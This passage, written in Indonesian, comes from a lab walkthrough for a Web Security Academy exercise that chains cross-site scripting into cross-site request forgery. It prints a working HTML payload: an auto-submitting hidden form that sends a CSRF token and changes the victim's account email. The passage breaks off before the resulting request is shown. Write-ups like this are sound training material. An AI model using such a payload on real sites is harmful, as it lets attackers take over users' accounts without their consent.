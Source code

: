 ![Langkah 4](images/Exploiting%20XSS%20to%20perform%20CSRF/4.png)

### 5. Membuat Payload CSRF dengan XSS

Kita akan menggunakan payload berikut yang mirip dengan yang ada di [PortSwigger Blog](https://portswigger.net/blog/exploiting-xss-in-post-requests):

```html
<form name=TheForm action=https://0a8100660449e28b80a50877005400f4.web-security-academy.net/my-account/change-email method=post>
    <input type=hidden name="csrf" value="wV6Kw7g2mIv6JLKjoQjmb3Nd6BhhXbmg">
    <input type=hidden name="email" value="test7@test.com">
</form>
<script>
    document.TheForm.submit();
</script>
```

Ketika halaman diakses, payload ini akan membuat permintaan POST sebagai berikut:
